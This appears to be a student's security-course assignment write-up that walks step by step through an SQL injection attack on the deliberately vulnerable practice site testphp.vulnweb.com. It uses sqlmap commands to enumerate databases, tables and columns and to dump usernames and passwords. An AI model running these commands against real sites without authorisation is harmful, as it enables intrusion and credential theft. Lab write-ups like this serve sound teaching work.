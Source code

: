 # Assignment 1

## Problem Statement
In this assignment, you need to perform an SQL Injection attack. You will use SQLMap tool and [http://www.vulnweb.com](http://www.vulnweb.com) or any other use case of a live vulnerable website. The use of SQLMap within Kali Linux to conduct the attack is necessary for this assignment.  

## Requirements and Dependancies
1. I installed `sqlMap` using the command `pip3 install sqlMap` on my MacOS.
<img width="1319" alt="Screenshot 2022-11-05 at 2 07 05 AM" src="https://user-images.githubusercontent.com/64619851/200082050-27cbe67c-af55-4d86-84fa-a8017d6bd47c.png">

2. I used the `zsh` terminal to run all my commands.

## SQL Injection Attack

### Step 1: Observe the Website
Open the Acuart domain [http://vulnweb.com.](http://vulnweb.com)

### Step 2: Find a Vulnerable Link
We find any link that contacts the backend database through an SQL query. In this case, the link is [http://testphp.vulnweb.com/artists.php?artist=1.](http://testphp.vulnweb.com/artists.php?artist=1)

### Step 3: Locate the Database
I ran the command `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' --dbs` to find all the databases. I had to put the URL in quotation marks to make all these commands work in the `zsh` terminal. These commands MAY NOT work for you with the quotation marks.
<img width="1440" alt="Screenshot 2022-11-05 at 2 07 17 AM" src="https://user-images.githubusercontent.com/64619851/200082101-50a35165-53df-40f6-bcb3-4262f6b04623.png">

### Step 4: Locate the Tables
Then, I ran the command `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart --tables` to identify all the tables in the database.<img width="1440" alt="Screenshot 2022-11-05 at 2 07 51 AM" src="https://user-images.githubusercontent.com/64619851/200082197-98989fad-3cb1-4bd6-9273-e49f91942b44.png">



### Step 5: Focus on Specific Tables
We will focus on the _users_ table by running the command `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart -T users columns`. This command will show us all the columns in this table.
<img width="1440" alt="Screenshot 2022-11-05 at 2 08 13 AM" src="https://user-images.githubusercontent.com/64619851/200082229-e0501387-5c22-4928-b34d-aab500c11bc7.png">


### Step 6: Dump Information
In the _users_ table, we will dump all the data in the _uname_ and _pass_ by running two commands.
1. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart -T users -C uname --dump`
<img width="1440" alt="Screenshot 2022-11-05 at 2 08 31 AM" src="https://user-images.githubusercontent.com/64619851/200082247-724c2eb9-edc8-4645-a0a8-4be6875ff847.png">

2. `sqlmap -u 'testphp.vulnweb.com/artists.php?artist=1' -D acuart -T users -C pass --dump`
<img width="1440" alt="Screenshot 2022-11-05 at 2 08 50 AM" src="https://user-images.githubusercontent.com/64619851/200082257-3d61b418-5c8f-4778-ac7e-c4326a7c680c.png">
